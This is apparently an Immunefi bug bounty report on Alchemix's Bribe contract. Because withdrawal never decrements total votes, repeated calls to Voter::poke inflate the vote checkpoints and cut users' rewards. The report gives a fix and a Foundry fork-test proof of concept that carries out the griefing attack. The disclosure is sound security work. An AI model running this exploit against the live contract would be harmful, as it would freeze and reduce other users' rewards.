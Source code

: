 
# Users can grief Bribe rewards, forcing them to be stuck forever by continuously calling `Voter::poke`

Submitted on Sat May 18 2024 09:43:37 GMT-0400 (Atlantic Standard Time) by @OxAlix2 for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31409

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol

Impacts:
- Permanent freezing of unclaimed yield
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro
When users vote in the `Voter` contract, it calls `Bribe::deposit` to "save" this vote, so that later when rewards come in for that Bribe can be distributed to users who voted. The opposite happens when users reset/withdraw their votes. However, there's 1 anomaly between the Bribe's deposit and withdrawal, where on deposit, Bribe is "checkpointing" the votes using:
```
totalVoting += amount;
_writeVotingCheckpoint()
```
And the opposite is not happening on the withdrawal, this allows users to mess up all the Bribe's rewards.

## Vulnerability Details
When users vote in the `Voter` contract, it calls `Bribe::deposit` which increases the total votes of that Bribe, however, on withdrawal these votes aren't being subtracted. On the other hand, the `Voter` contract allows users to continuously call the `poke` function that resets and then vote again in the same gauges/bribes, without any condition on that function. This allows voters to continuously call the `poke` function to skyrocket the total votes checkpoints in the Bribe, remember when `poke` resets/withdraws the votes they are not being removed.

These total votes' checkpoints are being used in `Bribe::earned`, to calculate the earned amount to each voter, it is being divided by, https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol#L261, which wrongly decrease the rewards for each user.

## Impact Details
* Griefing of users, as their rewards will be a lot less than what they "deserve", if there were even some rewards left.
* The remaining unclaimed rewards will remain stuck forever in the contract.

## References
https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol#L319-L329

## Mitigation
Add the following in `Bribe::withdraw`:
```
totalVoting -= amount;
_writeVotingCheckpoint();
```
 
        
## Proof of concept
Fork block number used: `19877251`

```
function testGriefBribeRewards() public {
    // Bribe config
    uint256 usdcRewardAmount = 100e6;
    hevm.prank(voter.admin());
    voter.whitelist(usdc);
    address bribeAddress = voter.bribes(voter.gauges(alUsdPoolAddress));
    deal(address(usdc), address(this), usdcRewardAmount);
    IERC20(usdc).approve(bribeAddress, usdcRewardAmount);

    // Admin and Beef create locks
    uint256 tokenId1 = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
    uint256 tokenId2 = createVeAlcx(beef, TOKEN_1, MAXTIME, false);

    address[] memory pools = new address[](1);
    pools[0] = alUsdPoolAddress;
    uint256[] memory weights = new uint256[](1);
    weights[0] = 5000;

    // Admin and Beef vote
    hevm.prank(admin);
    voter.vote(tokenId1, pools, weights, 0);
    hevm.prank(beef);
    voter.vote(tokenId2, pools, weights, 0);

    // Confirm voting success
    assertGt(IBribe(bribeAddress).totalVoting(), 0);

    // Increase time to reach just before epoch end
    hevm.warp(IBribe(bribeAddress).getEpochStart(block.timestamp) + 2 weeks - 1 hours);

    // Beef continously calls poke, messing up votes checkpoints in the Bribe contract
    hevm.startPrank(beef);
    voter.poke(tokenId2);
    hevm.warp(block.timestamp + 1);
    voter.poke(tokenId2);
    hevm.warp(block.timestamp + 1);
    voter.poke(tokenId2);
    hevm.warp(block.timestamp + 1);
    voter.poke(tokenId2);
    hevm.warp(block.timestamp + 1);
    voter.poke(tokenId2);
    hevm.stopPrank();

    // Rewards come in to the Bribe contract
    IBribe(bribeAddress).notifyRewardAmount(usdc, usdcRewardAmount);

    // Epoch ends
    hevm.warp(block.timestamp + 1 hours);

    // Voting still exists
    assertGt(IBribe(bribeAddress).totalVoting(), 0);
    // Rewards for each token is around 14 USDC where it should be 50 USDC (100 USDC / 2 tokens)
    assertEq(IBribe(bribeAddress).earned(usdc, tokenId1) / 1e6, 14);
    assertEq(IBribe(bribeAddress).earned(usdc, tokenId2) / 1e6, 14);
}
```